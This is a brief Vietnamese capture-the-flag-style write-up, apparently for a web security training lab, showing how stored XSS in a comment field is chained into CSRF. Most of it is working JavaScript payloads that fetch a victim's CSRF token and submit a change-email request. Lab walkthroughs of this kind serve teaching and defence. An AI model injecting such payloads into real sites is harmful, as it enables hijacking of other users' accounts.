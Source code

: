 ## Exploiting XSS to perform CSRF

1. Login vào account được cấp. Thử chức năng đổi mật khẩu nhận thấy yêu cầu cần 2 tham số là email và csrf token

2. Khi thử payload ``<script>alert(1)</script>`` trong ô input comment nhận thấy lab tồn tại lỗ hổng xss

3. Để thực hiện thay đổi email ta cần gửi 1 request có chứa csrf token ở trang `my-account`. Do đó trước hết tạo 1 request để lấy được giá trị csrf token.

```
<script>
var req = new XMLHttpRequest();
req.open("GET", "/my-account", false);
req.send();
token = req.responseText.match(/name="csrf" value="(.*)"/)[1];
alert(token);
</script>
```

![Img1](\asset/../img/get_csrf_token.png)

4. Sau khi có được csrf token thì tạo post request change email bằng fetch với payload 

```
<script>
var req = new XMLHttpRequest();
req.open("GET", "https://0a92000b0480b5cac086bdfb0021005f.web-security-academy.net/my-account", false);
req.send();
token = req.responseText.match(/name="csrf" value="(.*)"/)[1];
console.log(token);

fetch("https://0a92000b0480b5cac086bdfb0021005f.web-security-academy.net/my-account/change-email", {
        method: 'POST',
        body: 'email=sv_cuongdm@viettel&csrf=' + token
    });

</script>
``` 

-> Thành công